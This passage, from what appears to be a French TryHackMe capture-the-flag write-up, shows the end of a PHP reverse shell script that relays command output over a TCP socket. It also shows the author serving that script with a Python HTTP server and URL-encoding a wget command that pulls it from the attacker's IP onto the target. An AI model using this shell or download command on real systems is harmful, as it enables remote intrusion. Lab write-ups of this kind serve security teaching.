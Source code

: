 ```bash

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 


tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

On fabrique un reverse shell.   
On met en place un serveur http pour récupérer le reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ urlencode 'wget http://10.9.228.66:8000/shell.php -O /tmp/shell.php'
wget%20http%3A%2F%2F10.9.228.66%3A8000%2Fshell.php%20-O%20%2Ftmp%2Fshell.php
```
